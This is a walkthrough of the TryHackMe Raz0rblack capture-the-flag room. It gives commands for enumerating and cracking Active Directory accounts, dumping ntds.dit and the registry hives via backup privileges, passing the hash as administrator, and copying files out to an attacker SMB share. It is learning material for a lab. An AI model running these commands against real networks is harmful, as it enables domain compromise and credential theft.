 # Raz0rblack

https://tryhackme.com/room/raz0rblack

A good AD room, with some interesting windows privesc. Worth writing up as some of this stuff is finicky.

Via the flag submission panel, some users can be gathered. HOWEVER, this writeup assumes you don't do this.

1. `nmap -A` over the machine will reveal the domain controller name is **raz0rblack.thm**
2. kerbrute (obtainable [here](https://github.com/ropnop/kerbrute)) run as following will reveal a number of users: `kerbrute userenum -d raz0rblack.thm --dc <ip> /usr/share/wordlists/SecLists/Usernames/x
ato-net-10-million-usernames.txt`: administrator, **twilliams** (with a hash) and **sbradley**.
3. The hash for **twilliams** can be broken with hashcat, rockyou and  `-m 18200`, revealing the password for this user.
4. With credentials, the rest of the users can be gathered via impacket's lookupSID: `python3 /opt/impacket/examples/lookupsid.py raz0rblack.thm/twilliams:roastpotatoes@10.10.
115.139`, revealing two additional users, **xyan1d3** and **lvetrova**.
5. By adding **xyan1d3** and **lvetrova** to users.txt, we can then attempt to kerbroast: `/opt/impacket/examples/GetUserSPNs.py -dc-ip <ip> raz0rblack.thm/twilliams -outputfile
hashes.kerbroast` (this will prompt for a password) which will reveal a hash for the user **xyan1d3**.
6. The hash from above can be broken with hashcat, rockyou and `-m 13100` to get the password for **xyan1d3**.
7. Using this password with evil-winrm we can get an interactive session as this user: `evil-winrm -i <ip> -u xyan1d3 -p <password>`
8. **xyan1d3** has the following permissions: 

```
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Meaning that getting a credential dumb via backups should be possible.

9. A backup of ntds.dit can be made as so: `echo y | wbadmin start backup -backuptarget:\\localhost\c$\users\xyan1d3\Doc
uments -include:c:\windows\ntds\`. This will put the backup in the user's documents folder (note the use of a local c$ share to satisfy both the requirement of a share and the target being ntfs)
10. To extract the ntds.dit, the version id of the backup can be obtained via `wbadmin get versions`, and then the file can be gathered via `echo Y | wbadmin start recovery -itemtype:file -items:C:\windows\ntds\ntds.dit -recoverytarget:Z:\ -notrestoreacl -version:<version-id>`
11. Finally, gathering the sam hive and system hive via `reg save hklm\sam sam.save` and `reg save hklm\system system.save`, the hashes for users can be extracted via `secretsdump.py -system System.hive -sam Sam.hive -ntds ntds.dit LOCAL`.
12. With the admin hash from above, complete system compromise can be obtained via evil-winrm and passing the hash: `evil-winrm -i <ip> -u administrator -H <hash>`

With admin some flags are readable, and the system can be enumerated completely. However, there are flags in the lvetrova and xyan1d3 user folders which are encoded as powershell/.net secure strings: these can only be decoded as the user in question. lvetrova can be logged on via her hash just as admin. Then, running a command like the following will read the flag: `(Import-Clixml -Path ".\lvetrova.xml").GetNetworkCredential().Password`.

Other flags are hex encoded, inside a dummy exe file, and in secret folders, `Program Files/Top Secret` and `Windows/trash`. The trash folder is intended to be accessed over smb, it looks, but can be opened directly via admin.

## Getting files back to the kali box

For getting files from the windows machine to an attack host:

- open a smb share using impacket on the attack host: `smbserver.py share . -username share -password share -smb2support`
- map a drive to this share via net use (for some reason, direct copy never seemed to work): `net use z: \\10.10.61.105\share /user:share share`

Then you can just copy files normally to `z:\`
